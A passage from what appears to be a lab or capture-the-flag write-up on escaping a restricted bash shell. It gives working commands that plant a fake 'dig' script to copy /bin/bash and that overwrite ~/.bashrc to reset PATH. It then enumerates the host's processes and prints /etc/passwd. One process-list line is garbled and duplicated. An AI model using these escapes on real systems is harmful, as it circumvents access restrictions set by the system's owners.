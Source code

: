 I think the best possibility is to just copy `/bin/bash` itself, to escape `/bin/rbash`.
This is the command i use to do that kind of exploit:

```sh
echo -n -e '#!/bin/bash\n/bin/cp /bin/bash ~/bin/' | tee bin/dig
```

After running `dig` and taking a look inside our `~/bin/` folder, we can see `bash` show up:
```
99b76d0d-b3db-4817-8d1d-f0a703cf17ea:~$ ls bin
bash  dig   ls    ping  tee
```

After that, we can just use `bash` to escape the rbash shell, and overwrite the .bashrc file to set our `PATH` variable like we want:
```sh
/bin/chmod u+w ~/.bashrc && echo -e 'export PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin' | tee ~/.bashrc
```

After exitting the current shell and entering a new one, you are good to go!

## Gaining privileges
### General Analysis
#### Running processes (`ps -a`):
```
PID   USER     TIME  COMMAND
    1 root      0:00 s6-svscan -t0 /var/run/s6/services
   31 root      0:00 s6-supervise s6-fdholderd
  315 root      0:00 s6-supervise resolver
  316 root      0:00 s6-supervise siab
  319 root      0:00 sh ./run
  320 shellina  0:00 /bin/shellinaboxd --debug --no-beep -u shellinabox -g shellinabox -c /var/lib/shellinabox -p 4200 --user-css Normal:+/etc/shellinabox/options-enabled/00_White-On-Black.
  328 go-dnsma  0:00 go-dnsmasq --default-resolver --ndots 1 --fwd-ndots 0 --hostsfile=/etc/hosts
  331 shellina  0:00 /bin/shellinaboxd --debug --no-beep -u shellinabox -g shellinabox -c /var/lib/shellinabox -p 4200 --user-css Normal:+/etc/shellinabox/options-enabled/00_White-On-Black.
  346 root      0:00 login -p -h 10.53.0.1, 81.10.189.200
  347 restrict  0:00 -rbash>linaboxd --debug --no-beep -u shellinabox -g shellinabox -c /var/lib/shellinabox -p 4200 --user-css Normal:+/etc/shellinabox/options-enabled/00_White-On-Black.
  346 root      0:00 login -p -h 10.53.0.1, 81.10.189.200
  347 restrict  0:00 -rbash
  359 restrict  0:00 bash
  362 restrict  0:00 ps -a
```

#### `/etc/passwd` file:
```
root:x:0:0:root:/root:/bin/ash
bin:x:1:1:bin:/bin:/sbin/nologin
daemon:x:2:2:daemon:/sbin:/sbin/nologin
adm:x:3:4:adm:/var/adm:/sbin/nologin
lp:x:4:7:lp:/var/spool/lpd:/sbin/nologin
sync:x:5:0:sync:/sbin:/bin/sync
shutdown:x:6:0:shutdown:/sbin:/sbin/shutdown
halt:x:7:0:halt:/sbin:/sbin/halt
mail:x:8:12:mail:/var/spool/mail:/sbin/nologin
news:x:9:13:news:/usr/lib/news:/sbin/nologin
uucp:x:10:14:uucp:/var/spool/uucppublic:/sbin/nologin
operator:x:11:0:operator:/root:/bin/sh
man:x:13:15:man:/usr/man:/sbin/nologin
postmaster:x:14:12:postmaster:/var/spool/mail:/sbin/nologin
cron:x:16:16:cron:/var/spool/cron:/sbin/nologin
ftp:x:21:21::/var/lib/ftp:/sbin/nologin
sshd:x:22:22:sshd:/dev/null:/sbin/nologin
```